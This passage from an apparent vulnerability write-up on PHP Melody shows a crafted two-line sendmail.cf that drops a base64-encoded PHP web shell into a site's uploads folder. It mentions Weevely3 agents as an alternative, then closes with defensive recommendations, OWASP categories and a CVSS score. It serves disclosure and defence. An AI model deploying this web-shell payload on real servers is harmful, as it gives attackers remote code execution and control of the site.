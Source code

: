 A two-line `sendmail.cf` file I ended up with is:

```
V10/Berkeley
Fhax|"/usr/bin/env php -r file_put_contents('/var/www/html/uploads/articles/exploit.php',base64_decode('PD9waHAgZXZhbCgkX0dFVFsneCddKTsK'));"
```

This dumps a basic PHP web-shell into `/var/www/html/uploads/articles/exploit.php`, the arbitrary sized base64 encoded payload could be changed to drop a [Weevely3](https://github.com/epinna/weevely3) agent, or `eval` code instead.

If the target is using Postfix, Qmail or a lightweight `sendmail` alternative the `-X` technique will still work, but the site-name will need to be overridden with a PHP backdoor...


## Summary and Recommendations

What can we do to prevent this from happening in future? Realistically the developers of PHP Melody will just patch that specific instance of SQL injection and move on while leaving the **Secure code with 5 years of time-proven reliability** claim on their website.

Unless the developers of PHP Melody change their development practices and/or re-code the software using industry standard patterns and frameworks which prevent a wide range of security holes from existing in the first place, then the likelihood of more vulnerabilities being discovered in future is a near certainty.

What about the people who rely on this software? Deploying a Web Application Firewall, even something free and open-source like mod_security with a good rule-set could provide adequate defence against the initial SQL injection vulnerability.

**[OWASP Top 10](https://www.owasp.org/index.php/Top_10_2013-Top_10)**

 * A1 - Injection
 * A6 - Sensitive Data Exposure
 * A9 - Using Components with Known Vulnerabilities
 
**Overall CVSS Score: 9.8**

-------------------

[Header image](http://www.publicdomainpictures.net/view-image.php?image=20453&picture=flower-macro) by [George Hodan](https://www.facebook.com/hodanpictures?ref=hl)